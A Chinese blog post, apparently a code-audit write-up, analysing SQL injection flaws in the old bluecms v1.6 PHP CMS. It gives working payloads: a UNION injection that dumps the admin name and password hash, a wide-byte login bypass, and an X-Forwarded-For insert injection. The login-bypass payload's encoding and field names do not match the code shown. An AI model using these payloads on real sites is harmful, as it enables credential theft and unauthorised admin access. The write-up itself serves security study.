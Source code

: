 ```yaml
---
title: bluecms v1.6 Sql Injection 分析
date: 2017-01-11 22:02:11
tags: 
 - cms
categories: codereview
---
```


# 概述
很久没有代码审计了，拿一套简单的找找感觉。bluecms是一套比较老的门户网站cms，网上也有很多关于它的漏洞还未修补，所以下文的漏洞也不算是最新的，仅当是练练手。

<!-- more -->
# SQL注入分析

首先关注一下数据的输入

## 全局数据转义

在common.inc.php中

```
if(!get_magic_quotes_gpc())
{
	$_POST = deep_addslashes($_POST);
	$_GET = deep_addslashes($_GET);
	$_COOKIES = deep_addslashes($_COOKIES);
	$_REQUEST = deep_addslashes($_REQUEST);
}
```
再跟进一下deep_addslashes

```
function deep_addslashes($str)
{
	if(is_array($str))
	{
		foreach($str as $key=>$val)
		{
			$str[$key] = deep_addslashes($val);
		}
	}
	else
	{
		$str = addslashes($str);
	}
	return $str;
}
```
可以发现对数据的注入，进行了加斜杠转义的操作。那么接下来找注入思路主要有以下3点：

1. 找整数型注入
2. 整套cms默认gb2312编码，容易造成宽字节注入
3. http头并不在转义的范围内，所以类似存入ip，reffer的位置也能发生注入

## 整数型注入
拿grep匹配了一下$_GET，找到一处不做其他过滤的整数型位置

```
./ad_js.php:$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';
```

跟进ad_js.php

```
$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';
if(empty($ad_id))
{
	echo 'Error!';
	exit();
}

$ad = $db->getone("SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id);
```
getone函数

```
function getone($sql, $type=MYSQL_ASSOC){
    	$query = $this->query($sql,$this->linkid);
    	$row = mysql_fetch_array($query, $type);
    	return $row;
}
```

可以看到这里对ad_id没有做其他过滤处理，造成了整数型注入,由于后面会将ad_content打印在页面上，所以直接用union注入就可以获得数据，构造payload

```
/ad_js.php?ad_id=1%20union%20select%201,2,3,4,5,6,concat(admin_name,0x23,pwd)%20from%20blue_admin%20limit%201
```

结果可以在返回的界面中看到

```
<!--
document.write("admin#21232f297a57a5a743894a0e4a801fc3");
-->
```
ps:因为该cms错误回显具体sql语句，表前缀可以通过报错的方法把表前缀爆出来。

## 宽字节注入
bluecms操作数据库的具体类定义在mysql.class.php,默认连接时的编码为gbk，我们可以知道当数据库连接时的编码为gbk等双字节编码时，容易发生宽字节注入。前面提到该套cms对数据输入进行了转义的操作，那么刚刚好条件都齐了，必然存在宽字节注入。grep看了一下，基本上的字符串都只是做了转义处理，所以字符串数据输入点都存在宽字节注入。大多数注入都是盲注，没找到具体可以会显数据的地方，这里就简单看一下登陆处
### 后台登录处
其实前台user.php，也存在注入，只是盲注，这里就取简单的后台登录验证处
admin/login.php

```
elseif($act == 'do_login'){
 	$admin_name = isset($_POST['admin_name']) ? trim($_POST['admin_name']) : '';
 	$admin_pwd = isset($_POST['admin_pwd']) ? trim($_POST['admin_pwd']) : '';
 	$remember = isset($_POST) ? intval($_POST['rememberme']) : 0;
 	if($admin_name == ''){
 		showmsg('xxx');
 	}
 	if($admin_pwd == ''){
 		showmsg('xxx');
 	}
 	if(check_admin($admin_name, $admin_pwd)){
 		update_admin_info($admin_name);
 		if($remember == 1){
 			setcookie('Blue[admin_id]', $_SESSION['admin_id'], time()+86400);
 			setcookie('Blue[admin_name]', $admin_name, time()+86400);
			setcookie('Blue[admin_pwd]', md5(md5($admin_pwd).$_CFG['cookie_hash']), time()+86400);
 		}
 	}else{
 		showmsg('xxx');
 	}
 	showmsg('xxx', 'index.php');
 }
```
继续跟进check_admin

```
function check_admin($name, $pwd)
{
	global $db;
	$row = $db->getone("SELECT COUNT(*) AS num FROM ".table('admin')." WHERE admin_name='$name' and pwd = md5('$pwd')");
 	if($row['num'] > 0)
 	{
 		return true;
 	}
 	else
 	{
 		return false;
 	}
}
```
可以看到这里发生了一次登陆验证，可以通过宽字节注入来做万能密码登陆。

```
user_name=admin%65%27+or+1%3D1%23&pwd=123
```
![](/images/bluecms_code_review/bluecms_login_success.png)

## 存入ip造成注入
在common.inc.php中可以找到getip()函数

```
function getip()
{
	if (getenv('HTTP_CLIENT_IP'))
	{
		$ip = getenv('HTTP_CLIENT_IP');
	}
	elseif (getenv('HTTP_X_FORWARDED_FOR'))
	{
		$ip = getenv('HTTP_X_FORWARDED_FOR');
	}
	elseif (getenv('HTTP_X_FORWARDED'))
	{
		$ip = getenv('HTTP_X_FORWARDED');
	}
	elseif (getenv('HTTP_FORWARDED_FOR'))
	{
		$ip = getenv('HTTP_FORWARDED_FOR');
	}
	elseif (getenv('HTTP_FORWARDED'))
	{
		$ip = getenv('HTTP_FORWARDED');
	}
	else
	{
		$ip = $_SERVER['REMOTE_ADDR'];
	}
	return $ip;
}
```
再看看调用他的位置
![](/images/bluecms_code_review/bluecms_getip.png)

online_ip调用处
![](/images/bluecms_code_review/bluecms_online_ip.png)

看看guest_book.php处存在insert注入，并且可以通过覆盖后面的content，造成数据回显。通过xff传入注入语句或者client ip传入。

![](/images/bluecms_code_review/bluecms_ip_injection.png)
结果可以看到
![](/images/bluecms_code_review/bluecms_ip_results.png)

其他位置的注入，不能回显，就不分析了。

# 总结
总体来说，直接可以grep到`$_GET`、`$_POST`、`$_REQUEST`的cms，审计起来会比较轻松。可以先从入口看起，将common,config等文件看一遍，再查找危险函数，数据入口就可审计出几个漏洞来。bluecms暂时审计到这一步，主要找的是SQL注入的漏洞。其他漏洞打算准备另外一套cms来审计:)






